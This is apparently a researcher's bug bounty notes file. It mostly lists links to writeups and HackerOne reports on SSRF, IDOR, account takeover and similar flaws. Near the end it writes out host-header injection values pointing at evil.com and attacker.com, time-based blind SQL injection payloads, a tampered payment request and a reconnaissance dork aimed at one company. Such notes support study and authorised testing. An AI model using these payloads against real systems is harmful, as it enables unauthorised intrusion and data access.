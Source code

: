 ```
http://www.firstsight.me/2020/11/optimizing-hunting-results-in-vdp-for-use-in-bug-bounty-programs-from-sensitive-information-disclosure-to-accessing-hidden-apis-which-can-be-used-to-retrieve-customer-data/
```

```

```

Dork: ssl.cert.subject.CN:"*.unilever.com"+200
https://wearetradecraft.com/advisories/
https://gosecure.github.io/xxe-workshop/#8
https://gh0st.cn/archives/2020-01-08/2
https://labs.detectify.com/2021/09/30/10-types-web-vulnerabilities-often-missed/?utm_content=181672862&utm_medium=social&utm_source=twitter&hss_channel=tw-404136883


```
https://www.youtube.com/watch?v=zTkv_9ChVPY
```

```
https://bugcrowd.com/rootbakar
https://blogs.opera.com/security/2021/09/bug-bounty-guest-post-local-file-read-via-stored-xss-in-the-opera-browser/
https://medium.com/@osamaavvan/1800-worth-clickjacking-1f92e79d0414
https://systemweakness.com/simple-2-fa-bugs-and-logic-flaws-that-you-can-look-for-as-a-beginner-ca333933f259
```

```
https://securib.ee/beelog/the-best-bug-bounty-recon-methodology/
https://jlajara.gitlab.io/web/2020/02/19/Bypass_WAF_Unicode.html
https://supras.io/how-i-got-access-to-many-piis-through-a-source-code-leak/
https://johnjhacking.com/blog/the-ultimate-guide-to-crashing-your-friend-s-wedding-the-knot-business-logic-flaw/
https://u-itachi.medium.com/from-phpinfo-page-to-many-p1-bugs-and-rce-symfony-bce432605662
https://www.hackingarticles.in/ctf-challenges-walkthrough/
https://medium.com/cyberverse/got-bounty-with-account-takeover-ato-unicode-case-mapping-collision-d23a7785e1be
https://eng.getwisdom.io/hacking-github-with-unicode-dotless-i/
https://hector0x.medium.com/from-url-dumps-digging-to-idor-bac-massive-phishing-in-udemy-6fa7f94ef256
https://www.bugcrowd.com/blog/the-ultimate-guide-to-finding-and-escalating-xss-bugs/
https://medium.com/@discodamone/a-different-way-to-attack-certain-reverse-proxies-9cd2303e95fe
https://snapsec.co/blog/2021/09/25/Attacking-Access-Control-Models-In-Modern-Web-Applications.html
https://blog.mert.ninja/idor/
https://mike-n1.github.io/SSRF_P4toP2
https://application.security/free/owasp-top-10
https://blog.deteact.com/account-takeover-via-idor/
https://hackerone.com/reports/637267
https://hackerone.com/reports/970157
https://hackerone.com/reports/17474
https://medium.com/@bathinivijaysimhareddy/tale-of-account-takeovers-part-1-b24e1f3c3187
https://blog.usamav.dev/two-account-takeover-bugs-worth-4300-dollar-bounty
https://hackerone.com/reports/1356845
一个沙雕
https://hackerone.com/jaka_tingkir?type=user
有很多dos的报告
https://hackerone.com/cs_money/hacktivity?type=team
```

# Bug Bounty Reference

### sqli
- [My Bug Bounty Journey and My First Critical Bug — Time Based Blind SQL Injection](https://marxchryz.medium.com/my-bug-bounty-journey-and-my-first-critical-bug-time-based-blind-sql-injection-aa91d8276e41)

### 反射XSS
- [reflected xss in e.mail.ru](https://hackerone.com/reports/1379297) by burp 插件技巧

### SSRF 
- [cloud_metadata.txt](https://gist.github.com/BuffaloWill/fa96693af67e3a3dd3fb)
- [Cloud Metadata Dictionary useful for SSRF Testing](https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b)
- [视频](https://www.youtube.com/watch?v=UyemBjyQ4qA)
- [rce-in-cloud-dm.html 有视频](https://www.ezequiel.tech/2020/05/rce-in-cloud-dm.html)
- [入门](https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978)
- [入门](https://blog.detectify.com/2019/01/10/what-is-server-side-request-forgery-ssrf/)
- [SSRF in api.slack.com, using slash commands and bypassing the protections.](https://hackerone.com/reports/381129)
- [Vimeo SSRF with code execution potential.](https://infosecwriteups.com/vimeo-ssrf-with-code-execution-potential-68c774ba7c1e)
- [Exploiting SSRF like a Boss — Escalation of an SSRF to Local File Read!](https://medium.com/@zain.sabahat/exploiting-ssrf-like-a-boss-c090dc63d326)
- [From SSRF To RCE in PDFReacter](https://medium.com/@armaanpathan/pdfreacter-ssrf-to-root-level-local-file-read-which-led-to-rce-eb460ffb3129)
- [Chain of hacks leading to Database Compromise!](https://logicbomb.medium.com/chain-of-hacks-leading-to-database-compromise-b2bc2b883915)
- [Bypass of the SSRF protection in Event Subscriptions parameter.](https://hackerone.com/reports/386292)
- [$1.000 SSRF in Slack](https://elbs.medium.com/1-000-ssrf-in-slack-7737935d3884) by Elber Andre
- [SSRF’s up! Real World Server-Side Request Forgery](https://www.shorebreaksecurity.com/blog/ssrfs-up-real-world-server-side-request-forgery-ssrf/)
- [Exploiting SSRF in AWS Elastic Beanstalk](https://notsosecure.com/exploiting-ssrf-aws-elastic-beanstalk) by notsosecure
- [Stored XSS, and SSRF in Google using the Dataset Publishing Language](https://s1gnalcha0s.github.io/dspl/2018/03/07/Stored-XSS-and-SSRF-Google.html) by Craig Arendt
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876) by 0xacb
- [Escalating SSRF to RCE](https://generaleg0x01.com/2019/03/10/escalating-ssrf-to-rce/)
- [Unauthenticated blind SSRF in OAuth Jira authorization controller](https://hackerone.com/reports/398799)
- [From SSRF to Port Scanner](https://cobalt.io/blog/from-ssrf-to-port-scanner)
- [SSRF vulnerability via FFmpeg HLS processing](https://krevetk0.medium.com/ssrf-vulnerability-via-ffmpeg-hls-processing-f3823c16f3c7)
- [Blind SSRF/XSPA on dashboard.lob.com + blind code injection](https://hackerone.com/reports/517461)
- [Old but GOLD Dot Dot Slash to Get the Flag — Uber Microservice](https://ngailong.wordpress.com/2019/04/07/old-but-gold-dot-dot-slash-to-get-the-flag-uber-microservice/)

### Direct Object Reference (IDOR)
- [IDOR for X-Pid header allowed user with observer role to elevate privileges for SQS service of MCS (sqs.mcs.mail.ru) by using role from the different project.](https://hackerone.com/reports/1177451) by mrd0x1

### Unrestricted File Upload
- [Shell upload in http://widget.support.my.com/](https://hackerone.com/reports/317043) by danila
- [Unrestricted file upload on [ambassador.mail.ru]](https://hackerone.com/reports/854032) by organdonor

### Authentication Bypass
- [Improper Authentication - any user can login as other user with otp/logout & otp/login](https://hackerone.com/reports/921780) by korniltsev
- [Change any Uber user's password through /rt/users/passwordless-signup - Account Takeover (critical)](https://hackerone.com/reports/143717) by mongo
- [Account Takeover at worki.ru](https://hackerone.com/reports/725707) by r0hack
- [Forgot Password Page SMS Brute Force could lead to Account Takeover using Android/IOS app "About the house" via api.prodom.smart.space](https://hackerone.com/reports/944392) by jayesh25
- [Account takeover through password reset in cups.mail.ru](https://hackerone.com/reports/843160) by weev3kyaw
- [Lack of rate limitation on careers site allows the attacker to brute force the verification code](https://hackerone.com/reports/1075827) by iambouali
- [Full account takeover of any user through reset password](https://hackerone.com/reports/1175081) by saajanbhujel
- [Password reset link injection allows redirect to malicious URL](https://hackerone.com/reports/281575) by cablej 
- [Password Reset - query param overrides postdata](https://hackerone.com/reports/96636) by reecer

### Business Logic Flaw
- [Modify in-flight data to payment provider Smart2Pay](https://hackerone.com/reports/1295844) by drbrix
```
Amount=2000&CustomerEmail=brixamount100abc%40███████&Hash=███
Amount2=000&CustomerEmail=brix&amount=100&ab=c%40██████████&Hash=█████████
```

### Miscellaneous
- [Bypass Rate Limits on app.snapchat.com API Endpoint via X-Forwarded-For Header](https://hackerone.com/reports/727487) by sicarius
- [Client IP Spoofing using "X-Forwarded-For: 127.0.0.1" on "studio-app.snapchat.com" exposing bucket details](https://hackerone.com/reports/382678) by damian89
- [Error Page Content Spoofing or Text Injection](https://hackerone.com/reports/1245051) by princej_76
- [Password reset link not expiring after changing password in settings](https://hackerone.com/reports/1288898) by blackbibin


### recon win 
- [API on campus-vtc.com allows access to ~100 Uber users full names, email addresses and telephone numbers.](https://hackerone.com/reports/580268) by healdb
- [Administrator access to a Django Administration Panel on *.sc-corp.net via bruteforced credentials](https://hackerone.com/reports/128114) by shubs


host-header-injection
```
Host: example.com?.mavenlink.com
X-Forwarded-Host: evil.com
Referrer: https://evil.com
localhost.attacker.com or localhostattacker.com
Host: redacted.com?anythin<b>imran</b> or Host: redacted.com?"><a href='evil.com
```

SQL INJECT
```
'and(select*from(select+sleep(30))a/**/union/**/select+1)='
%27and%28select%2Afrom%28select%2Bsleep%2830%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27
'XOR(if(now()=sysdate(),sleep(30),0))OR'
%27XOR(if(now()%3dsysdate(),sleep(30),0))OR%27
"and(select*from(select+sleep(30))a/**/union/**/select+1)="
%22and%28select%2Afrom%28select%2Bsleep%2830%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%22
"XOR(if(now()=sysdate(),sleep(30),0))OR"
%22XOR(if(now()%3dsysdate(),sleep(30),0))OR%22
```


